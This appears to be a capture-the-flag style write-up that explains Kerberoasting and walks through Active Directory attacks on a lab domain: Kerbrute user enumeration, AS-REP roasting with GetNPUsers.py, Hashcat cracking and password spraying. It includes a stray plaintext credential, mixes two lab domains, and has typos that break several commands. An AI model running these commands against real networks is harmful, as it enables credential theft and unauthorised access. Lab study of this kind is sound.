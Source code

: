 Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name (“SPN”).

# How do Kerberoasting attacks work?
Kerberoasting attacks exploit a combination of weak encryption techniques and simple or low-complexity passwords. These attacks typically follow the below process:

1. A threat actor compromises the account of a Domain User.
2. The threat actor uses the Domain User context to  request a Kerberos service ticket from the ticket granting service (TGS) using tools like GhostPack’s Rubeus or SecureAuth Corporation’s GetUserSPNs.py.
username: Olivia
password: ichliebedich
3. The threat actor receives a ticket from the Kerberos key distribution center (KDC). The ticket is encrypted with a hashed version of the account’s password.
4. The threat actor captures the TGS ticket and takes it offline.
5. The threat actor attempts to crack the SPN credential hash to obtain the service account’s plaintext password using brute force techniques or tools like Hashcat or JohnTheRipper.
6. With the service account password in hand, the threat actor attempts to authenticate as  the service account and is granted access to any service, network or system associated with the compromised account.
7. The attacker is then able to steal data, escalate privileges or set backdoors on the network to ensure future access.

# A few things to keep in mind:
->Kerberoasting attacks do not require a Domain Admin account or an account that has elevated privileges. In fact, any Domain User account can be used in this attack type since any account can request service tickets from the TGS.
->Kerberoasting requires the adversary to have existing access to a user account in order to request tickets from the KDC. This access can be achieved from a variety of methods, such as social engineering, malware or even purchasing user credentials on the dark web.
->The SPN can be linked to either a host-based or domain user account. Host-based SPNs are not vulnerable to Kerberoasting attacks because the password is a long, complex key that is refreshed every 30 days or less. These complex, random passwords are difficult to crack even with advanced cracking tools and brute force techniques. User account SPN passwords, on the other hand, are selected by humans and therefore often subject to the same vulnerabilities of any other manually created passwords. This is to say that the SPN password may be considered weak, common, outdated, recycled or reused. Advanced tools can often crack these passwords in a matter of hours.
->Kerberoasting attacks also exploit an architecture flaw, in that any authenticated domain user can initiate a TGS request for any service on the network. The domain controller that is the recipient of the request typically does not check to see if the user is authorized to access this service. The service itself enforces access rights, which creates a loophole by which an offline attack can occur.

# Nmap sample scan result

    389/tcp   open     ldap           Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
    
    3268/tcp  open     ldap           Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-04-18T

Let’s start enumerate the kerberos users and see if we can find something: this time lets use Kerbrute (https://github.com/ropnop/kerbrute)

You can find the list i used here: (https://github.com/insidetrust/statistically-likely-usernames)


    ./kerbrute_linux_amd64 userenum --dc <commonName> -d <domainName> -v /path/to/wordlist   | kerbrute.outdated

To filter for valid usernames
    
    cat kerbrute.out | grep '+' | awk '{print$7}' > usernames.txt


Now we have a list of valid Users but no passwords.

Let's try an ASRep Roasting attack, attempting to exploit the lack of pre-authentication for some accounts, we can try to intercept some hashes.

    cat usernames.txt | head

    GetNPUsers.py jab.htb -userfile uernames.txt -format hascat -outputfile hashes_roast.txt

To get any pre-authenticated users with their hash

    cat hashes_roast.txt
    
Crach the hshes using hashcat

    hashcat hashes_roast.txt /path/to/wordlist --show
    
We have now a clear password for jmontgomery@jab.htb, and we can check if it works and has been reused: let’s spay the password for all the users

    ./kerbrute_linux_amd64 passwordspray --dc <commonName> -d <domainName> username.txt <password>
